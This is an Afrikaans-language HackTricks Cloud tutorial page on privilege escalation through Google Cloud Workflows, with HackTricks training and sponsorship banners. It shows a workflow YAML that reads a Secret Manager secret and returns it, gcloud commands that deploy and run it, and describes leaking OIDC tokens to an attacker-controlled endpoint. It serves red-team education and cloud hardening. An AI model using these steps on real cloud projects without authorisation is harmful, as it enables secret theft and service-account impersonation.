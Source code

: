 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basiese Inligting:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soos ek weet, is dit nie moontlik om 'n shell te kry met toegang tot die metadata-eindpunt wat die SA-akkrediteer van die SA wat aan 'n Workflow aangeheg is, bevat nie. Dit is egter moontlik om die toestemmings van die SA te misbruik deur die aksies wat binne die Workflow uitgevoer moet word, by te voeg.

Dit is moontlik om die dokumentasie van die connectors te vind. Byvoorbeeld, dit is die [**bladsy van die Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In die sybalk is dit moontlik om verskeie ander connectors te vind.

En hier kan jy 'n voorbeeld van 'n connector vind wat 'n geheim druk:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Opdateer vanaf die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
As jy 'n fout soos `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` kry, **wag net 'n minuut en probeer weer**.

As jy nie webtoegang het nie, is dit moontlik om 'n Workflow te aktiveer en die uitvoering te sien met: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Jy kan ook die uitvoer van vorige uitvoerings nagaan om sensitiewe inligting te soek
{% endhint %}

Let daarop dat selfs al kry jy 'n fout soos `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` omdat jy nie daardie toestemming het nie, is die werksvloei gegenereer.

### Lek OIDC-token (en OAuth?)

Volgens [**die dokumentasie**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) is dit moontlik om werksvloei-stappe te gebruik wat 'n HTTP-versoek sal stuur met die OAuth of OIDC-token. Maar, net soos in die geval van [Cloud Scheduler](gcp-cloudscheduler-privesc.md), moet die HTTP-versoek met die Oauth-token na die gasheer `.googleapis.com` wees.

{% hint style="danger" %}
Daarom is dit **moontlik om die OIDC-token te lek deur 'n HTTP-eindpunt aan te dui** wat deur die gebruiker beheer word, maar om die **OAuth**-token te lek, sal jy **'n omseiling** vir daardie beskerming benodig. Tog is jy steeds in staat om **enige GCP-api te kontak om aksies namens die SA uit te voer** deur middel van of koppelvlakke of HTTP-versoeke met die OAuth-token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Met hierdie toestemming in plaas van `workflows.workflows.create` is dit moontlik om 'n reeds bestaande workflow op te dateer en dieselfde aanvalle uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) of die [**telegram group**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
